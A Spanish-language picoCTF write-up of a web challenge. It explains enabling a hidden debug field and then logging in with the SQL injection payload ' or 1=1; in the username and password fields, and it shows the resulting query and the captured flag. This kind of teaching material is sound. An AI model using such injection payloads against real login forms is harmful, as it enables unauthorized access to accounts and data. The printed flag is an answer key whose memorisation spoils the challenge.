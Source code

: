 ## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!
## Solución
El código fuente de la página tenía un input de tipo hidden, al cambiarlo se mostró una caja de texto con el valor 0, le asigné el valor 1 y la página me mostró esto:
```
username: 
password: 
SQL query: SELECT * FROM users WHERE name='' AND password=''

# Login failed.
```
lo que indica que ni la entrada de username ni la de password validan los valores y se le pueden inyectar sentecias sql:
```
username: ' or 1=1;
password: ' or 1=1;
```
esto, combinado con la asignación del valor 1 en el input escondido, me permitieron logearme.
```
username: ' or 1=1;
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='' or 1=1;'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```
## Notas
se le pone ' al principio de la sentencia para cerrar la comilla que el desarrollador usó y así poder insertar otra validación "or 1=1".
## Referencias